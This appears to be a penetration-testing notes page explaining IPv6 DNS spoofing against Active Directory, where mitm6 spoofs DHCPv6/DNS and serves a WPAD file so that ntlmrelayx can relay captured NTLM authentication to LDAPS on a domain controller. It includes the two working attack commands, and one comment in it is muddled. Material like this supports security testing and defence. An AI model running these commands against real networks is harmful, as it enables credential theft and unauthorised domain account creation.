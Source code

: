 # IPv6 Attacks

## Brief

{% hint style="info" %}
### **What is IPv6 DNS Spoofing?** <a href="#bkmrk-what-is-ipv6-dns-spo" id="bkmrk-what-is-ipv6-dns-spo"></a>

An attacker announces itself as an IPv6 DHCP server and DNS server on the network, which tricks clients into sending requests to the attacker's machine.\


### **What's the Flaw?** <a href="#bkmrk-what-27s-the-flaw-3f" id="bkmrk-what-27s-the-flaw-3f"></a>

Many networks are still predominantly IPv4 networks and are not utilizing IPv6, but have not disabled IPv6 traffic in their network. Windows hosts communicate over both protocols, so if IPv6 traffic is allowed to flow on the network unchecked, an attacker can use this unmonitored/unmitigated space as an attack vector.



### **How is it Exploited?** <a href="#bkmrk-how-is-it-exploited-3f" id="bkmrk-how-is-it-exploited-3f"></a>

Assuming the target Active Directory network makes use of LDAPs (LDAP is also fine), the attack requires the use of two tools -- `mitm6` and `ntlmrelayx`. This attack works by announcing an IPv6 router and DNS server on the LAN segment. IPv6 clients will connect to the server and request a WPAD file.

The client will request a WPAD file via DNS to the spoofed DNS server and a legitimate WPAD file with malicious configurations will be served to the client. Now, when any client wants to connect over certain protocols like HTTP, it will attempt to authenticate to the WPAD proxy via NTLM; which can be relayed to target(s) of the attacker's choosing.

&#x20;

**This is especially dangerous** when relaying a privileged user's credential to the domain controller, as it may allow for the creation of new computer and user accounts on the domain, which **can be used for persistence**.
{% endhint %}

## Attack

First, we start mitm6, which will start replying to DHCPv6 requests and afterward to DNS queries requesting names in the internal network.

<pre class="language-bash"><code class="lang-bash"><strong># First Part : Only respond to DNS requests for domain.tld hosts
</strong><strong>mitm6 -d $domain
</strong>
# For the second part of our attack, we use  ntlmrelayx to relay the captured hashes. Now i will show two possible ways to use this tool, first through a simple SMB relay. 
ntlmrelayx.py -6 -t ldaps://$dcip -wh $wpadhostname.domain.tld -l $lootdir
</code></pre>

## More

{% embed url="https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/" %}
